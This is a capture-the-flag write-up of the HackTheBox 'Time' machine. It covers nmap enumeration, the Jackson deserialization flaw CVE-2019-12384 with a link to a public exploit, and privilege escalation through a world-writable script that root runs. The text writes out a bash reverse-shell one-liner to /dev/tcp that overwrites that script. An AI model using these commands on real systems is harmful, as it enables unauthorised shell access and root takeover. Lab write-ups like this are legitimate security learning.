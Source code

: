 ```yaml
---
title: (HTB) - Time
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-12 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, Java, Deserialization, CVE-2019-14439, A08:2021-Software And Data Integrity Failures, Weak Permissions, CVE-2019-12814, A06:2021-Vulnerable And Outdated Components, CVE-2019-12384]
math: true
mermaid: true
image:
  src: /assets/images/7271b973dbee497292da39db670b796c7cf0520dc410ff947f5781123d206307.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Time is a very straightforward box, which just needs to be enumerated very precisely. It starts with Java CVE and ends with **

# ENUMERATION
## NMAP
Let's start with NMAP scan:
```	
Nmap scan report for 10.10.10.214
Host is up (0.034s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## GOBUSTER

Gobuster actually didn't found anything where i could connect to, without 403 redirection

## Website

Website is running a java script beautifier:

![picture 65](/assets/images/ef05392b8d075fa9fc3c3f4d31874b952569291d454b19bbcddf056ed2812f95.png)  

I've sent a request through Burp and found out something interesting.

# EXPLOITATION

As mentionend, i've sent an initial request through burp and continued in repeater. Data can be any non-numeric value and it will raise an exception
	
![picture 29](/assets/images/632f6ab2b5c1822f8a245002e1f97b008df0d187baed48b0f696b7f885867675.png)  

Now testing with different brackets
```
mode=2&data={123}
```

Results in exception. A `Java` Exception(!)
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```
Now there is a CVE for that: https://github.com/jas502n/CVE-2019-12384 including exploit which, if ran, would give us shell:

![picture 30](/assets/images/7e3f13981796ae3b3d2fe4e2a7960ae8e0ffb81a460c211952c708a47b408f55.png)  

# PRIVILEGE ESCALATION
## Exploiting System Timer
Root executes writable script owned by pericles. 

```
pericles@time:/tmp$ ls -la /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Jan 25 15:05 /usr/bin/timer_backup.sh
```

To exploit that, simply echo reverse shell to `/usr/bin/timer_backup.sh`, set a listener and wait.

```
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.22/4444 0>&1'" > /usr/bin/timer_backup.sh
```
	
![picture 31](/assets/images/d4c6ed33be3925472288d6acbde054cc1b82a07bb0b2e605a10c5b242c7ca598.png)  
